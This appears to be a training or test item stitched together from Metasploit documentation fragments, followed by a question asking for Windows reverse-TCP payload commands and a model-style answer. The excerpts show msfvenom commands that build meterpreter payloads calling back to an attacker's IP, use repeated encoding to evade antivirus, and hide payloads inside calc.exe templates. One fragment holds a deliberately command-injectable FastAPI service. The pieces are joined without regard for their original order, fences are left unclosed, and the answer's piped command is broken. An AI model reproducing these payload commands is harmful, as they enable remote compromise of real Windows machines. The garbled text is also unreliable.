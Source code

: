 Context:# How to generate a payload  
To generate a payload, there are two flags that you must supply (-p and -f):  
* **The -p flag: Specifies what payload to generate**  
To see what payloads are available from Framework, you can do:  
```
./msfvenom -l payloads  
The -p flag also supports "-" as a way to accept a custom payload:  
```
cat payload_file.bin | ./msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f raw  
* **The -f flag: Specifies the format of the payload**  
Syntax example:  
```
./msfvenom -p windows/meterpreter/bind_tcp -f exe  
To see what formats are supported, you can do the following to find out:  
```
./msfvenom --help-formats  
Typically, this is probably how you will use msfvenom:  
```
$ ./msfvenom -p windows/meterpreter/reverse_tcp lhost=[Attacker's IP] lport=4444 -f exe -o /tmp/my_payload.exe  
# How to encode a payload  
By default, the encoding feature will automatically kick in when you use the -b flag (the badchar flag). In other cases, you must use the -e flag like the following:  
```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -f raw  
To find out what encoders you can use, you can use the -l flag:  
```
./msfvenom -l encoders  
You can also encode the payload multiple times using the -i flag. Sometimes more iterations may help avoiding antivirus, but know that encoding isn't really meant to be used a real AV evasion solution:  
```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3  
# How to avoid bad characters  
The -b flag is meant to be used to avoid certain characters in the payload. When this option is used, msfvenom will automatically find a suitable encoder to encode the payload:  
```
./msfvenom -p windows/meterpreter/bind_tcp -b '\x00' -f raw  
# How to supply a custom template  
By default, msfvenom uses templates from the msf/data/templates directory. If you'd like to choose your own, you can use the -x flag like the following:  
```
./msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe > new.exe  
Please note: If you'd like to create a x64 payload with a custom x64 custom template for Windows, then instead of the exe format, you should use exe-only:  
```
./msfvenom -p windows/x64/meterpreter/bind_tcp -x /tmp/templates/64_calc.exe -f exe-only > /tmp/fake_64_calc.exe  
The -x flag is often paired with the -k flag, which allows you to run your payload as a new thread from the template. However, this currently is only reliable for older Windows machines such as x86 Windows XP.  
# How to chain msfvenom output  
The old ``msfpayload`` and ``msfencode`` utilities were often chained together in order layer on multiple encodings. This is possible using ``msfvenom`` as well:  
```
./msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.3 LPORT=4444 -f raw -e x86/shikata_ga_nai -i 5 | \
./msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
./msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
## On this page
* [List of Metasploit reverse shells](#list-of-metasploit-reverse-shells)
* [Windows common reverse shell](#windows-common-reverse-shell)
* [Linux common reverse shell](#linux-common-reverse-shell)
* [When to use a reverse shell](#when-to-use-a-reverse-shell)
* [When a reverse shell isn't needed](#when-a-reverse-shell-isnt-needed)
* [How to set up for a reverse shell during payload generation](#how-to-set-up-for-a-reverse-shell-during-payload-generation)
* [Demonstration](#demonstration)
* [Step 1: Generate the executable payload](#step-1-generate-the-executable-payload)
* [Step 2: Copy the executable payload to box B](#step-2-copy-the-executable-payload-to-box-b)
* [Step 3: Set up the payload handler on box A](#step-3-set-up-the-payload-handler-on-box-a)
* [Step 4: Double-click on the malicious executable](#step-4-double-click-on-the-malicious-executable)
* [Step 5: View the meterpreter/payload session on box A](#step-5-view-the-meterpreterpayload-session-on-box-a)  
There are two popular types of shells: bind and reverse.
Bind shell - Opens up a new service on the target machine and requires the attacker to connect to it to get a session.
Reverse shell - A reverse shell is also known as a connect-back. It requires the attacker to set up a listener first on his box, the target machine acts as a client connecting to that listener, and then finally, the attacker receives the shell.  
You can learn more about the primary use of payloads in the 5.2.4 Selecting the Payload section of the old [Metasploit Users Guide](http://cs.uccs.edu/~cs591/metasploit/users_guide3_1.pdf).  
This article goes over using a reverse shell to get a session.  
## List of Metasploit reverse shells  
To get a list of reverse shells, use the `msfpayload` command. B  
```bash
./msfpayload -l |grep reverse
If you've found a way to execute a command on a target, and you'd like to make a simple exploit module to get a shell, this guide is for you. Alternatively, if you have access to **fetch** commands on the target (curl, wget, ftp, tftp, tnftp, or certutil), you can use a [[Fetch Payload|How-to-use-fetch-payloads]] for a no-code solution.  
By the end of this guide you'll understand how to turn [Command injection](https://owasp.org/www-community/attacks/Command_Injection) into a shell - from here, you can move on to the [[command stager|How-to-use-command-stagers]] article and upgrade your basic `:unix_cmd` Target to a Dropper for all kinds of payloads with variable command stagers.  
This guide assumes *some* knowledge of programming (Understand what a class is, what methods/functions are) but expects no in-depth knowledge of Metasploit internals.  
## A Vulnerable Service  
For the vulnerable service test case, we'll be using a simple FastAPI service. This is very easy to spin up:  
1. Install `fastapi[all]` using your preferred Python package manager (a virtual environment is recommended)
2. Create a file to hold some Python code (I'll call it `main.py`)
3. Copy the following code into your file:  
```python
from fastapi import FastAPI, Response
import subprocess

app = FastAPI()

@app.get("/ping")
def ping(ip : str):
res = subprocess.run(f"ping -c 1 {ip}", shell=True, capture_output=True)
return Response(content=res.stdout.decode("utf-8"), media_type="text/plain")

 Question: Generate a list of Bash commands to create EXE payloads for Windows using Metasploit. Each command should generate a reverse TCP payload and follow the format for Metasploit's msfvenom tool, targeting Windows systems.Respond with only bash command with no output or other text explaination.  
```
 Your response: 
```bash
./msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.3 lport=4444 -f raw -e x86/shikata_ga_nai -i 5
| ./msfvenom -a x86 --platform windows -e x86/countdown -i 8 -f exe -o payload.exe
```
